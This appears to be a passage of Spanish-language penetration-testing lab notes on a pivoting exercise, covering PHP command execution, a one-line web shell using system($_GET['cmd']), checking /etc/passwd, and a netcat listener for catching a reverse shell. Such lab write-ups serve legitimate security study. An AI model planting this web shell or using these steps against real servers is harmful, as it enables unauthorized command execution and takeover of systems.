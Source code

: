 ==Si logramos ver el archivo de texto  /etc/passdw la vulnerabilidad acontecio con exito y tenemos la ejecucion de comandos.

```
<Pre>system('hostname -I')</pre>
```

==Si modificamos el comando y como prueba de nuestro laboratorio de pivoting en esta maquina debemos de tener 2 interfaces de red una que se cominica directamente con nosotros y otra que apunta a la maquina DMV.


![[Captura de pantalla 2023-06-22 142125.png]]

==192.168.153.128 y 10.10.18.128

---

# Reverse Shells

HTTP Reverse Shell: En este caso, el objetivo comprometido establece una conexión HTTP con el atacante. El objetivo realiza una solicitud HTTP hacia una dirección específica donde el atacante está escuchando. El atacante procesa la solicitud y ejecuta comandos en el objetivo a través de la comunicación HTTP.

```
<Pre>system($_GET['cmd'])</pre>

esta línea de código permite ejecutar un comando del sistema en el servidor web utilizando el valor proporcionado a través del parámetro `cmd` en una solicitud GET. Sin embargo, es importante destacar que este código puede ser peligroso si no se realiza una validación y filtrado adecuados de los valores de entrada. Si el parámetro `cmd` se puede manipular por un usuario malintencionado, podría permitir la ejecución de comandos arbitrarios en el servidor, lo que podría llevar a vulnerabilidades de seguridad y comprometer el sistema.

- `<pre>` y `</pre>`: Son etiquetas de HTML utilizadas para definir un bloque de texto preformateado.

- `system()`: Es una función en PHP que permite ejecutar comandos del sistema operativo.

- `$_GET['cmd']`: Es una superglobal en PHP que recupera los valores de los parámetros pasados a través de una solicitud GET. En este caso, se espera que el parámetro `cmd` contenga el comando del sistema a ejecutar.
 
```

==Se levanta el código.

![[Captura de pantalla 2023-06-22 142548.png]]

==Para recibir la Reverse Shell debemos ponernos en escucha.,La shell inversa permite a un atacante tomar el control de un sistema remoto. Esto plantea serios problemas de seguridad y es una práctica altamente riesgosa.

```
sudo nc -nlvp 443

se configura un listener en el puerto 443, listo para recibir conexiones entrantes. Esto es útil en situaciones como la creación de una shell inversa o la configuración de una comunicación segura a través del puerto 443.

- `sudo`: El comando se ejecuta con privilegios de superusuario. Esto puede ser necesario si se requieren permisos especiales para enlazar y escuchar en el puerto especificado.
   
- `nc`: Es el comando abreviado de "netcat", una herramienta versátil para la transferencia de datos a través de redes. En este caso, se utiliza para crear un listener.
   
```